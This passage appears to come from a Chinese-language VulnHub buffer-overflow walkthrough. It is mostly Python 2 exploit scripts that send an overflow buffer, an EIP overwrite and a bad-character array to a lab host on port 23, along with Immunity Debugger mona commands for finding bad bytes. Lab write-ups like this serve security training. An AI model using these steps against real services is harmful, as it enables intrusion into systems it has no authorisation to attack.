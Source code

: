 ```python
"\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
"\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
buff = "A"*1902
eip = "B" * 4
buffer = badchars
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```



再次执行`!mona compare -a esp -f  "D:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin"`

![12](https://static.iihack.com/vulnhub/613/12.png)



```
!mona bytearray -cpb \x00\x4d\x4f
```

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4e\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
"\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2"
"\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2"
"\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
buff = "A"*1902
eip = "B" * 4
buffer = badchars
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```
